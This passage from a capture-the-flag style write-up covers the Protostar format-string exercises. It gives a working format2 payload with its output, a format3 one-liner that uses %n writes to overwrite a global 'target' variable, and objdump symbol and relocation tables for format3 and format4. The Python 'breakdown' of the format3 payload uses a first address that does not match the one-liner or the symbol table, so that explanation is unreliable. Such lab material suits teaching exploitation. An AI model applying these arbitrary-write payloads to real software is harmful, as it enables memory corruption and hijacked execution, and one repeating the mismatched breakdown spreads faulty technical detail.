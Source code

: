```
$ python /tmp/py | /opt/protostar/bin/format2
AAAA200__b7fd8420__bffff5e4__41414141__
you have modified the target :)
```

## Format 3

```
080496e8 g     O .bss   00000004              stdin@@GLIBC_2.0
080496f4 g     O .bss   00000004              target
080496f8 g       *ABS*  00000000              _end
00000000       F *UND*  00000000              puts@@GLIBC_2.0
080496e8 g       *ABS*  00000000              _edata
0804854a g     F .text  00000000              .hidden __i686.get_pc_thunk.bx
080484d0 g     F .text  0000000f              main
0804830c g     F .init  00000000              _init
```

Inspired by this: ,https://sh3llc0d3r.com/protostar-exploit-exercises-format3/
```
$ python -c "print('\xf4\x96\x04\x08\xf6\x96\x04\x08%21820d%12$n%43966d%13$n')" | /opt/protostar/bin/format3
```

Python Script breakdown of the input
```
address1 = "\xf0\x96\x04\x08"
address2 = "\xf4\x96\x04\x08"
padding1 = "%21820d" # Calculate the remaining length
write1 = "%12$n"
padding2 = "%43966d"
write2 = "%13$n"
payload = address1+address2+padding1+write1+padding2+write2
print(payload)
```

## Format 4

```
$ objdump -TR ./format4

./format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*  00000000              __gmon_start__
00000000      DF *UND*  00000000  GLIBC_2.0   fgets
00000000      DF *UND*  00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*  00000000  GLIBC_2.0   _exit
00000000      DF *UND*  00000000  GLIBC_2.0   printf
00000000      DF *UND*  00000000  GLIBC_2.0   puts
00000000      DF *UND*  00000000  GLIBC_2.0   exit
080485ec g    DO .rodata        00000004  Base        _IO_stdin_used
08049730 g    DO .bss   00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
```